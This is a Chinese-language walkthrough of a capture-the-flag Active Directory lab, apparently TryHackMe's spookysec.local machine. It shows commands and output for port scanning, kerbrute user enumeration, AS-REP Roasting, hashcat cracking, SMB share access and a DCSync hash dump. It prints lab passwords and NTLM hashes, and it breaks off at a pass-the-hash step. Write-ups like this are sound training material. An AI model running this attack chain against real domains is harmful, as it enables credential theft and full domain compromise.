## 搜集domain controller信息，扫描常见的1000个端口

```bash
nmap 10.48.186.225 -F 
```

```bash
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-04 10:09 +0800
Nmap scan report for 10.48.186.225
Host is up (0.31s latency).
Not shown: 92 closed tcp ports (conn-refused)
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 2.24 seconds
```

### 端口速览表

| 端口       | 服务名          | 作用             | 价值                                                    |
| -------- | ------------ | -------------- | ----------------------------------------------------- |
| **53**   | DNS          | 域名解析服务         | 可能存在区域传输漏洞（AXFR），或用于 DNS 枚举内网域名                       |
| **80**   | HTTP         | Web 服务         | 检查是否有 IIS 默认页面、目录泄露或脆弱 Web 应用                         |
| **88**   | **Kerberos** | 域认证协议          | **核心端口**，Kerberoasting 攻击目标，可抓取 TGT 或服务票据             |
| **135**  | MSRPC        | Windows 远程过程调用 | 用于 WMI/远程执行，常被用于横向移动                                  |
| **139**  | NetBIOS-SSN  | NetBIOS 会话服务   | 旧版文件共享协议，可能有 SMB 签名/版本信息泄露                            |
| **389**  | **LDAP**     | 轻量级目录访问协议      | **核心端口**，域信息查询（用户/组/计算机），BloodHound 采集的数据源之一          |
| **445**  | **SMB**      | Windows 文件共享   | **高危端口**，永恒之蓝（MS17-010）、SMB 中继、枚举共享资源                 |
| **3389** | RDP          | 远程桌面           | 爆破目标，或检查是否允许 NLA（网络级别认证），是否存在 CVE-2019-0708（BlueKeep） |

#### 详细目标收集信息,对上面扫出的端口进行详细扫描

```bash
nmap -sV -sC -T4 -p 53,80,88,135,139,389,445,3389 10.48.186.225
```

```bash
Nmap scan report for 10.48.186.225
Host is up (0.34s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        (generic dns response: NOTIMP)
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-07-04 02:21:43Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   Product_Version: 10.0.17763
|_  System_Time: 2026-07-04T02:22:03+00:00
|_ssl-date: 2026-07-04T02:22:12+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
| Not valid before: 2026-07-03T01:51:55
|_Not valid after:  2027-01-02T01:51:55
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.99%I=7%D=7/4%Time=6A486E3A%P=x86_64-pc-linux-gnu%r(DNSVe
SF:rsionBindReqTCP,20,"\0\x1e\0\x06\x85\x84\0\x01\0\0\0\0\0\0\x07version\x
SF:04bind\0\0\x10\0\x03");
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-07-04T02:22:03
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.64 seconds
```

### 3389这个端口暴露出很多信息

```bash
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   Product_Version: 10.0.17763
|_  System_Time: 2026-07-04T02:22:03+00:00
|_ssl-date: 2026-07-04T02:22:12+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
| Not valid before: 2026-07-03T01:51:55
|_Not valid after:  2027-01-02T01:51:55
```

| 字段                      | 值                                     | 含义                            |
| ----------------------- | ------------------------------------- | ----------------------------- |
| `Target_Name`           | `THM-AD`                              | 域的 NetBIOS 名称（旧版计算机名标识）       |
| `NetBIOS_Domain_Name`   | `THM-AD`                              | 域的 NetBIOS 名称，确认这是个域环境        |
| `NetBIOS_Computer_Name` | `ATTACKTIVEDIREC`                     | 这台机器的主机名（NetBIOS 格式，15 字符截断）  |
| `DNS_Domain_Name`       | **`spookysec.local`**                 | ⭐ **完整域名**，这是后续所有攻击命令中要用的关键信息 |
| `DNS_Computer_Name`     | `AttacktiveDirectory.spookysec.local` | 这台 DC 的完整 FQDN（完全限定域名）        |

| `Product_Version` | **10.0.17763** | 对应 **Windows Server 2019**（build 17763） |
| ----------------- | -------------- | --------------------------------------- |

## smb枚举信息

```bash
enum4linux-ng -A 10.48.186.225
```

```bash
enum4linux-ng -A 10.48.186.225
ENUM4LINUX - next generation (v1.3.10)

 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 10.48.186.225
[*] Username ......... ''
[*] Random Username .. 'taptfkgv'
[*] Password ......... ''
[*] Timeout .......... 10 second(s)

 ======================================
|    Listener Scan on 10.48.186.225    |
 ======================================
[*] Checking LDAP
[+] LDAP is accessible on 389/tcp
[*] Checking LDAPS
[+] LDAPS is accessible on 636/tcp
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp

 =====================================================
|    Domain Information via LDAP for 10.48.186.225    |
 =====================================================
[*] Trying LDAP
[+] Appears to be root/parent DC
[+] Long domain name is: spookysec.local

 ============================================================
|    NetBIOS Names and Workgroup/Domain for 10.48.186.225    |
 ============================================================
[-] Could not get NetBIOS names information via 'nmblookup': timed out

 ==========================================
|    SMB Dialect Check on 10.48.186.225    |
 ==========================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:
  SMB 1.0: false
  SMB 2.0.2: true
  SMB 2.1: true
  SMB 3.0: true
  SMB 3.1.1: true
Preferred dialect: SMB 3.1.1
SMB1 only: false
SMB signing required: true

 ============================================================
|    Domain Information via SMB session for 10.48.186.225    |
 ============================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: ATTACKTIVEDIREC
NetBIOS domain name: THM-AD
DNS domain: spookysec.local
FQDN: AttacktiveDirectory.spookysec.local
Derived membership: domain member
Derived domain: THM-AD

 ==========================================
|    RPC Session Check on 10.48.186.225    |
 ==========================================
[*] Check for anonymous access (null session)
[+] Server allows authentication via username '' and password ''
[*] Check for guest access
[-] Could not establish guest session: STATUS_LOGON_FAILURE

 ====================================================
|    Domain Information via RPC for 10.48.186.225    |
 ====================================================
[+] Domain: THM-AD
[+] Domain SID: S-1-5-21-3591857110-2884097990-301047963
[+] Membership: domain member

 ================================================
|    OS Information via RPC for 10.48.186.225    |
 ================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Could not get OS info via 'srvinfo': STATUS_ACCESS_DENIED
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016
OS version: '10.0'
OS release: '1809'
OS build: '17763'
Native OS: not supported
Native LAN manager: not supported
Platform id: null
Server type: null
Server type string: null

 ======================================
|    Users via RPC on 10.48.186.225    |
 ======================================
[*] Enumerating users via 'querydispinfo'
[-] Could not find users via 'querydispinfo': STATUS_ACCESS_DENIED
[*] Enumerating users via 'enumdomusers'
[-] Could not find users via 'enumdomusers': STATUS_ACCESS_DENIED

 =======================================
|    Groups via RPC on 10.48.186.225    |
 =======================================
[*] Enumerating local groups
[-] Could not get groups via 'enumalsgroups domain': STATUS_ACCESS_DENIED
[*] Enumerating builtin groups
[-] Could not get groups via 'enumalsgroups builtin': STATUS_ACCESS_DENIED
[*] Enumerating domain groups
[-] Could not get groups via 'enumdomgroups': STATUS_ACCESS_DENIED

 =======================================
|    Shares via RPC on 10.48.186.225    |
 =======================================
[*] Enumerating shares
[+] Found 0 share(s) for user '' with password '', try a different user

 ==========================================
|    Policies via RPC for 10.48.186.225    |
 ==========================================
[*] Trying port 445/tcp
[-] SMB connection error on port 445/tcp: STATUS_ACCESS_DENIED
[*] Trying port 139/tcp
[-] SMB connection error on port 139/tcp: session failed

 ==========================================
|    Printers via RPC for 10.48.186.225    |
 ==========================================
[-] Could not get printer info via 'enumprinters': STATUS_ACCESS_DENIED

Completed after 66.65 seconds
```

**`1.Could not get NetBIOS names information via 'nmblookup': timed out`**  
`nmblookup` 走的是 UDP 137 端口，很多环境（尤其是防火墙/云环境）会丢弃这个端口的包，超时很常见，不影响其他枚举，可以忽略。

**2. 大量 `STATUS_ACCESS_DENIED`（users、groups、shares、policies、printers 全部拒绝）**

这是这个靶机的核心机制：**匿名 null session 虽然能连上（RPC 认证成功），但域控本身不允许匿名用户查看用户列表、组、共享等敏感信息**。这是 Windows 默认的安全加固行为（`RestrictAnonymous` 策略），大多数现代 Windows Server 域控都会限制匿名枚举。

也就是说：

- 你成功建立了 null session（`[+] Server allows authentication via username '' and password ''`）—— 这一步是成功的
- 但是域控不允许用这个 null session 去查看具体数据 —— 这一步被拒绝是**预期的安全行为**，不是工具用错了

**3. 已经拿到的有效信息其实不少：**

- 域名：`spookysec.local`
- NetBIOS 域名：`THM-AD`
- 域 SID：`S-1-5-21-3591857110-2884097990-301047963`（这个后面爆破用户 RID 时会用到）
- 操作系统：Windows Server 2016/2019
- LDAP/LDAPS 都开着（389/636）

## domain controller虽然允许匿名登录，但是不允许匿名用户查看敏感信息（大量 `STATUS_ACCESS_DENIED`,users、groups、shares、policies、printers 全部拒绝）

# 

# 用kerbrute枚举域成员

#### 目标机器开了 Kerberos 服务用的端口（**88 端口**），Kerberos 是 AD 域里专门管认证登录的服务。既然这个端口开着，就可以用 **Kerbrute** 这个工具，通过 Kerberos 协议本身的特性去枚举出域里有哪些真实存在的用户名，甚至可以尝试密码喷洒（password spraying）。

### 这个靶机场景专门提供了一份**已经筛选精简过**的用户名字典和密码字典（链接给了 GitHub 地址），目的是让你不用去猜几万个用户名/密码，节省枚举和后续密码破解的时间。

### **不建议对这个域控制器做真正的暴力破解（brute force）**，因为：

1. ### AD 域通常会设置"账户锁定策略"（比如连续输错密码 5 次就锁账户）

2. ### 但你作为攻击者**没办法提前知道域控设置的锁定阈值是多少**（因为这个信息也是要认证后才能看到的）

3. ### 所以如果你疯狂爆破，很可能会把靶机里的账户全部锁死，导致后面的关卡没法做（连正确密码都用不了了，因为账户被锁了）
   
   ## 点击这个链接就能进入这个字典的网站，然后复制url,用wget或者curl,下载字典
   
   

```bash
kerbrute userenum --dc 10.48.130.9 -d spookysec.local userlist.txt 
```

### 枚举出了很多用户



### 枚举出了很多用户，需要注意这2个用户

### 接下来进行 AS-REP Roasting 攻击

## 正常情况下，用户想跟 Kerberos 拿票据（Ticket）登录，得先证明自己是真的知道密码（这叫"预认证"，Pre-Authentication）。但有些账户被单独设置了一个开关，叫 "Does not require Pre-Authentication"（不需要预认证），一旦某个账户开了这个开关，任何人都可以直接替这个账户去问域控要票据，完全不用先证明自己知道密码。

# 因此那个后门backup账户可能就是不需要预认证

### 这为什么是漏洞？

### 域控答复这个票据请求的时候，会把票据的一部分内容用**这个账户密码派生出来的密钥**加密。既然不需要验证身份就能拿到这个加密内容，攻击者就可以把这段加密数据带回本地，用密码字典**离线爆破**，不用再跟目标服务器交互（不会被锁账户、不会被目标发现），慢慢试出密码。这整个过程就叫 **AS-REP Roasting**。

## 用 Impacket 工具包里的一个脚本 `GetNPUsers.py`，专门用来问域控："这些用户名里，有没有谁是开了'不需要预认证'这个设置的？如果有，把加密数据发给我。"

#### 这里我没有用官方推荐的url下载impacket,用的pipx,自带所有依赖的隔离工具包，让系统python依赖更新时不影响工具

```bash
 pipx install impacket
```

#### 先把刚才枚举出来用户保存成字典，然后用这个字典开始攻击

```bash
GetNPUsers.py spookysec.local/ -usersfile usr.txt -no-pass -dc-ip 10.48.130.9
```



**`UF_DONT_REQUIRE_PREAUTH`** 这整个东西是一个**标志位的名字**，直译是"**不要求预认证**"这个标志。

`doesn't have UF_DONT_REQUIRE_PREAUTH set` 意思是：

> 这个用户**没有被设置**"不要求预认证"这个标志

### **双重否定，等于：这个账户依然要求预认证（正常/安全状态）**

拆解一下逻辑链：

- 标志名字本身就带否定词：`DONT_REQUIRE`（不要求）
- 输出结果又加了一层否定：`doesn't have ... set`（没有被设置）
- 双重否定 = 肯定：这个用户**仍然需要预认证**，也就是正常安全的账户

#### 只有svc-admin这个用户无需预认证,下面是哈希

```bash
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:d4d83c18a9c7fddd39605a0395408d88$8ebe1e8b83f778ea507589441aaa4765431dd28259d17f1a41d262c56253a698968344b296cba101376fcc113a3e5132aa2d6d6abbea2dc151a9ea10d4089ac696587480067e37e9a423a1e7307de7434f029133c9dd6beffd47be552967a7ae2e5180fc76ce6aa29f33c6fd3b8a9d4808b9f6827598c5a561bacdf6f95fb0724a289922ad688acaa4d4ff18d231565c242de07788abde74c5fa2d421ed696e0e574a8095ac5b5a54e0702a7a73c60744ca5ea2520ef71707ab0541cec31ce8687c56db412b8cf4e16b742a596497e7c53df2570cc2d35425e27a05920384fa2ad2c25bbb959d6a2553383146bd197215ec3
```

### Kerberos 在处理"不需要预认证"的账户请求时，域控会回复一个叫 **AS-REP（Authentication Server Response）** 的消息，这条消息里有一部分内容是**用这个账户密码经过特定算法（比如 RC4-HMAC、AES）计算出来的密钥**加密的。

### 然后开始本地破解，用官方给的字典，不知道啥模式直接把哈希值扔给ai,

```bash
hashcat -m 18200 svc-admin passwordlist.txt
```



```bash
密码 management2005
```

### 拿到一个域内用户的账号密码后，就可以smb枚举敏感信息了

```bash
smbclient -L //10.48.130.9/ -U 'svc-admin%management2005'
```

`-L` 是列共享列表，`-U 'svc-admin%密码'` 是把用户名和密码用 `%` 连起来一起传，不用交互式再输密码。



# 出货了

### 然后进入这个共享目录

```bash
smbclient //10.48.130.9/backup -U 'svc-admin%management2005'
```



#### 把凭证下载下来用smbclient内置的get命令,然后查看



## 然后上deepseek解码



暴露 **backup 账户的完整凭据**，格式是：

```
用户名@域名:密码
```

- `backup@spookysec.local` = backup 用户，属于 spookysec.local 域
- `:` = 分隔符
- `backup2517860` = 密码

### 下一步可以直接登录3389的远程桌面服务，连上去之后，在 Windows 上按 `Win+R`，输入 `dsa.msc` 打开 Active Directory Users and Computers（ADUC），看一下当前用户和其他用户的权限,

## 用svc-admin用和登录进入后发现这个，应该是个flag



### 用backup用户登录



#### 在 Windows 上按 `Win+R`，输入 `dsa.msc` 打开 Active Directory Users and Computers（ADUC），看一下当前用户和其他用户的权限,



### 因为上发枚举出的这个可疑用户猜想是用来备份的,权限应该很高

## 官方给的提示说backup这个用户有DCsync权限，但是我进去没找到上面那是官方的图

### 发动DCsync攻击，获取所有用户的NTLM哈希值

```bash
secretsdump.py spookysec.local/backup:'backup2517860'@10.48.130.9 -dc-ip 10.48.130.9
```

#### 格式是：`用户名:RID:LM哈希:NTLM哈希:::`

这是backup的凭据

```
spookysec.local\backup:1118:aad3b435b51404eeaad3b435b51404ee:19741bde08e135f4b40f1ca9aab45538
```

#### 这是svc-admin的凭据

```bash
spookysec.local\svc-admin:1114:aad3b435b51404eeaad3b435b51404ee:fc0f1e5359e372aa1f69147375ba6809:::
```

```bash
#Administrator凭据
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
```

- `Administrator` = 用户名
- `500` = RID（相对标识符，500 永远表示真实的 Administrator）
- `aad3b435b51404eeaad3b435b51404ee` = LM 哈希（现代 Windows 基本不用，可忽略）
- `0e0363213e37b94221497260b0bcb4fc` = **NTLM 哈希** ← 这个最值钱，可以用来 Pass-the-Hash）
- `:::` = 后面的字段都是空

### 下面这部分的Kerberos 密钥，可以用来做 Pass-the-Key 攻击。



### 我们用Administrator的NTLM哈希做Pass-the-Hash登录（这就是 Pass-the-Hash，不需要密码）

bash

```bash
